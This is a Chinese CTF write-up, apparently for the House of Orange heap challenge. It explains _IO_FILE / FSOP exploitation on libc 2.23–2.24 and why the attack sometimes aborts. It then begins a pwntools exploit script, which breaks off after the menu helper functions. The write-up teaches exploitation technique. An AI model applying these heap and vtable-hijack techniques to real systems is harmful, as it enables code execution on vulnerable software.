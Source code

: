 ###### 4.libc_2.24下的利用

参考资料见我的[_IO_FILE利用思路总结](https://sirhc.xyz/2018/12/07/_IO_FILE%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%80%BB%E7%BB%93/)

与libc2.23及以下的利用方式有点差距，主要是我们这里利用`__IO_str_jumps`中的`_IO_str_overflow`函数，我们不仅要绕过之前的`_IO_flush_all_lockp`检查，也要绕过`__IO_str_overflow`函数对`_IO_FILE`结构的检查，详细见exp


###### 5.Unexpected

该攻击有一定概率失败，主要原因是因为第一次将`_IO_list_all`劫持到`main_arena`时，由于`main_arena`不可控，该内存随机

```c
     if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)   
   || (_IO_vtable_offset (fp) == 0                                    
       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr             
			    > fp->_wide_data->_IO_write_base))                          
   )                                                                  
  && _IO_OVERFLOW (fp, EOF) == EOF)                                   
result = EOF;                                                         
```

  `&& _IO_OVERFLOW (fp, EOF) == EOF`的符号`&&`为**短路与**，所以有时该check流程，假如`((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`判断为真，或者是
`_IO_vtable_offset (fp) == 0 && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)`判断为真,那他们相或结果为真，就会造成执行
`_IO_OVERFLOW (fp, EOF) == EOF)`调用未知Vtable错误地址，程序Abort，所以程序有一定概率失败。

如果那两个判断都为假，那他们相或结果为假，根据&&的短路与，就不会执行右边的`_IO_OVERFLOW (fp, EOF) == EOF)`，直接通过`fp = fp->_chain`寻找新的`_IO_file`结构来执行`_IO_OVERFLOW`

### EXP-libc2.23

```python
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')

env = {}
env = {'LD_PRELOAD' : './libc-2.23.so'}
io = process('./orange', env=env)


elf = ELF('./orange')
libc = ELF('libc-2.23.so')

def build(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(1))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name :')
    io.send(Name)
    io.recvuntil('Orange:')
    io.sendline(str(Price))
    io.recvuntil('Color of Orange:')
    io.sendline(str(Choice))

def see():
    io.recvuntil('Your choice : ')
    io.sendline(str(2))

def upgrade(Length,Name,Price,Choice):
    io.recvuntil('Your choice : ')
    io.sendline(str(3))
    io.recvuntil('name :')
    io.sendline(str(Length))
    io.recvuntil('Name:')
```
